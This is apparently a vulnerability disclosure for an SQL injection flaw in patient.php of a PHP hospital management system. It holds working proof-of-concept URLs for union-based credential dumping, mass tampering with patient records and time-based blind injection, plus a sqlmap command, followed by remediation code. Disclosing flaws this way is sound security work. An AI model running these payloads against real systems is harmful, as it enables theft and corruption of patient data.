


# Online Hospital Management System has SQL Injection vulnerability in patient.php

## Supplier

https://code-projects.org/online-hospital-management-system-in-php-with-source-code/

## Vulnerability file

text

```
patient.php
```


## describe

In `patient.php`, there is an unrestricted SQL injection vulnerability in the Online Hospital Management System. The controllable parameter is `editid`. This parameter is directly concatenated into both `SELECT` and `UPDATE` SQL queries without any sanitization or parameterized query protection. The vulnerability can be triggered by **any unauthenticated remote attacker** — no login session is required, as the file lacks any authentication check before processing the `editid` parameter. Malicious attackers can exploit this vulnerability to view, modify, or delete all patient records, bypass authentication, or extract sensitive database information (including admin credentials).

**Code analysis**

The vulnerable code resides in multiple locations within `patient.php`:

1. **UPDATE query** (executed when the form is submitted with `$_GET['editid']` present):

php

```
if(isset($_GET[editid]))
{
    $sql ="UPDATE patient SET patientname='$_POST[patientname]',admissiondate='$_POST[admissiondate]',admissiontime='$_POST[admissiontme]',address='$_POST[address]',mobileno='$_POST[mobilenumber]',city='$_POST[city]',pincode='$_POST[pincode]',loginid='$_POST[loginid]',password='$_POST[password]',bloodgroup='$_POST[select2]',gender='$_POST[select3]',dob='$_POST[dateofbirth]',status='$_POST[select]' WHERE patientid='$_GET[editid]'";
    // ...
}
```


1. **SELECT query** (used to retrieve the patient record for editing):

php

```
if(isset($_GET[editid]))
{
    $sql="SELECT * FROM patient WHERE patientid='$_GET[editid]' ";
    $qsql = mysqli_query($con,$sql);
    $rsedit = mysqli_fetch_array($qsql);
}
```


In both cases, `$_GET['editid']` is taken directly from the URL and inserted into the SQL query string without any validation, escaping, or use of prepared statements. Additionally, there is **no authentication check** (e.g., verifying `$_SESSION['adminid']`) before executing these operations, meaning the vulnerability is exploitable by anyone who can reach the URL.

## POC

### 1. Union-Based Data Extraction

The SELECT query results are directly used to populate form fields, making union-based injection trivially exploitable.

#### Step 1: Identify number of columns

text

```
http://[target]/Hospital/patient.php?editid=1' ORDER BY 14-- -
```


(Repeat with increasing numbers until an error occurs; the correct number is 14.)

#### Step 2: Extract database name and user

text

```
http://[target]/Hospital/patient.php?editid=-1' UNION SELECT 1,database(),user(),4,5,6,7,8,9,10,11,12,13,14-- -
```


The database name and current user will appear in the form fields.

#### Step 3: Dump all table names

text

```
http://[target]/Hospital/patient.php?editid=-1' UNION SELECT 1,group_concat(table_name),3,4,5,6,7,8,9,10,11,12,13,14 FROM information_schema.tables WHERE table_schema=database()-- -
```


#### Step 4: Retrieve admin credentials

text

```
http://[target]/Hospital/patient.php?editid=-1' UNION SELECT 1,username,password,4,5,6,7,8,9,10,11,12,13,14 FROM admin-- -
```


### 2. Mass Data Tampering via UPDATE Injection

An attacker can abuse the UPDATE query to modify all patient records simultaneously:

text

```
http://[target]/Hospital/patient.php?editid=1' OR '1'='1
```


This URL causes the SELECT to load the first patient’s data into the form. When the attacker then submits the form with malicious values (e.g., `patientname=hacked`), the resulting SQL becomes:

sql

```
UPDATE patient SET patientname='hacked', ... WHERE patientid='1' OR '1'='1'
```


Because `'1'='1'` is always true, **every row in the `patient` table is updated** to the attacker-supplied values.

### 3. Time-Based Blind SQL Injection

If error messages are suppressed, the vulnerability can be verified via time delay:

text

```
http://[target]/Hospital/patient.php?editid=1' AND SLEEP(5) AND '1'='1
```


The page will delay its response by 5 seconds, confirming that arbitrary SQL code can be executed.

### 4. Automated Exploitation with sqlmap

text

```
sqlmap -u "http://[target]/Hospital/patient.php?editid=1" --level 3
```





sqlmap will quickly detect the injection and can be used to enumerate databases, tables, and dump sensitive data.

## Impact

Successful exploitation allows an attacker to:

- **Extract all patient records** without authentication
- **Modify or delete all patient data** by exploiting the UPDATE injection
- **Retrieve admin credentials** by dumping the `admin` or `tbl_login` table
- **Compromise the entire application** by gaining administrative access or altering application data
- **Bypass authentication** by modifying login credentials stored in the database

## Remediation

1. **Use Prepared Statements** instead of direct string concatenation for all queries involving user input:

php

```
// For SELECT
if(isset($_GET['editid'])) {
    $stmt = $con->prepare("SELECT * FROM patient WHERE patientid = ?");
    $stmt->bind_param("i", $_GET['editid']);
    $stmt->execute();
    $result = $stmt->get_result();
    $rsedit = $result->fetch_assoc();
}

// For UPDATE
if(isset($_GET['editid'])) {
    $stmt = $con->prepare("UPDATE patient SET patientname=?, admissiondate=?, admissiontime=?, address=?, mobileno=?, city=?, pincode=?, loginid=?, password=?, bloodgroup=?, gender=?, dob=?, status=? WHERE patientid=?");
    $stmt->bind_param("sssssssssssssi", $_POST['patientname'], $_POST['admissiondate'], $_POST['admissiontme'], $_POST['address'], $_POST['mobilenumber'], $_POST['city'], $_POST['pincode'], $_POST['loginid'], $_POST['password'], $_POST['select2'], $_POST['select3'], $_POST['dateofbirth'], $_POST['select'], $_GET['editid']);
    $stmt->execute();
}
```


1. **Add Authentication and Authorization Checks** before any sensitive operation:

php

```
if(!isset($_SESSION['adminid'])) {
    header('Location: login.php');
    exit;
}
```


1. **Validate Resource Ownership** — ensure the user has permission to access the requested record:

php

```
$check = $con->prepare("SELECT patientid FROM patient WHERE patientid = ?");
$check->bind_param("i", $_GET['editid']);
$check->execute();
$result = $check->get_result()->fetch_assoc();
if(!$result) {
    die("Record not found or unauthorized");
}
```


1. **Change HTTP Method** — sensitive state-changing operations should use POST requests instead of GET. In this case, the `editid` parameter that triggers the database lookup and update should be submitted via POST, not exposed in the URL.
2. **Disable detailed error reporting** in production to prevent information leakage that aids attackers.